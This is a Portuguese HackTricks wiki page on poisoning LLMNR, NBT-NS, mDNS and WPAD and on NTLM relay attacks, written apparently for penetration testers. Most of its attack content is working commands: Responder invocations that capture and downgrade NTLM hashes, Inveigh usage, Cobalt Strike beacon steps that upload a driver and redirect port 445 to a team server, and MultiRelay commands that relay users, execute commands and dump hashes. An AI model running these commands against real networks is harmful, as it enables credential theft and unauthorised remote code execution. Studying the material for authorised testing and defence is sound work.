 # Spoofing LLMNR, NBT-NS, mDNS/DNS e WPAD e Ataques de Relay

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Protocolos de Rede

### Protocolos de Resolução de Nome Local
- **LLMNR, NBT-NS e mDNS**:
- Microsoft e outros sistemas operacionais usam LLMNR e NBT-NS para resolução de nome local quando o DNS falha. Da mesma forma, sistemas Apple e Linux usam mDNS.
- Esses protocolos são suscetíveis à interceptação e spoofing devido à sua natureza não autenticada e de broadcast sobre UDP.
- [Responder](https://github.com/lgandx/Responder) pode ser usado para se passar por serviços enviando respostas forjadas para hosts que consultam esses protocolos.
- Mais informações sobre a impersonação de serviços usando Responder podem ser encontradas [aqui](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protocolo de Descoberta Automática de Proxy Web (WPAD)
- WPAD permite que navegadores descubram configurações de proxy automaticamente.
- A descoberta é facilitada via DHCP, DNS ou fallback para LLMNR e NBT-NS se o DNS falhar.
- Responder pode automatizar ataques WPAD, direcionando clientes para servidores WPAD maliciosos.

### Responder para Envenenamento de Protocolo
- **Responder** é uma ferramenta usada para envenenar consultas LLMNR, NBT-NS e mDNS, respondendo seletivamente com base nos tipos de consulta, visando principalmente serviços SMB.
- Vem pré-instalado no Kali Linux, configurável em `/etc/responder/Responder.conf`.
- Responder exibe hashes capturados na tela e os salva no diretório `/usr/share/responder/logs`.
- Suporta tanto IPv4 quanto IPv6.
- A versão do Windows do Responder está disponível [aqui](https://github.com/lgandx/Responder-Windows).

#### Executando o Responder
- Para executar o Responder com configurações padrão: `responder -I <Interface>`
- Para sondagem mais agressiva (com potenciais efeitos colaterais): `responder -I <Interface> -P -r -v`
- Técnicas para capturar desafios/respostas NTLMv1 para facilitar a quebra: `responder -I <Interface> --lm --disable-ess`
- A impersonação WPAD pode ser ativada com: `responder -I <Interface> --wpad`
- Solicitações NetBIOS podem ser resolvidas para o IP do atacante, e um proxy de autenticação pode ser configurado: `responder.py -I <interface> -Pv`

### Envenenamento DHCP com Responder
- Spoofing de respostas DHCP pode envenenar permanentemente as informações de roteamento de uma vítima, oferecendo uma alternativa mais furtiva ao envenenamento ARP.
- Requer conhecimento preciso da configuração da rede alvo.
- Executando o ataque: `./Responder.py -I eth0 -Pdv`
- Este método pode capturar efetivamente hashes NTLMv1/2, mas requer manuseio cuidadoso para evitar interrupções na rede.

### Capturando Credenciais com Responder
- O Responder irá se passar por serviços usando os protocolos mencionados acima, capturando credenciais (geralmente NTLMv2 Challenge/Response) quando um usuário tenta se autenticar contra os serviços forjados.
- Tentativas podem ser feitas para rebaixar para NetNTLMv1 ou desativar ESS para facilitar a quebra de credenciais.

É crucial notar que a utilização dessas técnicas deve ser feita legal e eticamente, garantindo a devida autorização e evitando interrupções ou acessos não autorizados.

## Inveigh

Inveigh é uma ferramenta para testadores de penetração e red teamers, projetada para sistemas Windows. Oferece funcionalidades semelhantes ao Responder, realizando spoofing e ataques man-in-the-middle. A ferramenta evoluiu de um script PowerShell para um binário C#, com [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) e [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) como as principais versões. Parâmetros detalhados e instruções podem ser encontrados na [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh pode ser operado através do PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ou executado como um binário C#:
```bash
Inveigh.exe
```
### NTLM Relay Attack

Este ataque aproveita as sessões de autenticação SMB para acessar uma máquina alvo, concedendo um shell de sistema se for bem-sucedido. Os principais pré-requisitos incluem:
- O usuário autenticado deve ter acesso de Administrador Local no host retransmitido.
- A assinatura SMB deve estar desativada.

#### Encaminhamento e Túnel da Porta 445

Em cenários onde a introdução direta na rede não é viável, o tráfego na porta 445 precisa ser encaminhado e tunelado. Ferramentas como [**PortBender**](https://github.com/praetorian-inc/PortBender) ajudam a redirecionar o tráfego da porta 445 para outra porta, o que é essencial quando o acesso de administrador local está disponível para carregamento de driver.

Configuração e operação do PortBender no Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Outras Ferramentas para Ataque de Relay NTLM

- **Metasploit**: Configurado com proxies, detalhes de hosts locais e remotos.
- **smbrelayx**: Um script em Python para relatar sessões SMB e executar comandos ou implantar backdoors.
- **MultiRelay**: Uma ferramenta do conjunto Responder para relatar usuários específicos ou todos os usuários, executar comandos ou despejar hashes.

Cada ferramenta pode ser configurada para operar através de um proxy SOCKS, se necessário, permitindo ataques mesmo com acesso indireto à rede.

### Operação do MultiRelay

O MultiRelay é executado a partir do diretório _**/usr/share/responder/tools**_, visando IPs ou usuários específicos.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Essas ferramentas e técnicas formam um conjunto abrangente para conduzir ataques de NTLM Relay em vários ambientes de rede.

### Forçar Logins NTLM

No Windows, você **pode ser capaz de forçar algumas contas privilegiadas a se autenticar em máquinas arbitrárias**. Leia a página a seguir para aprender como:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Referências
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
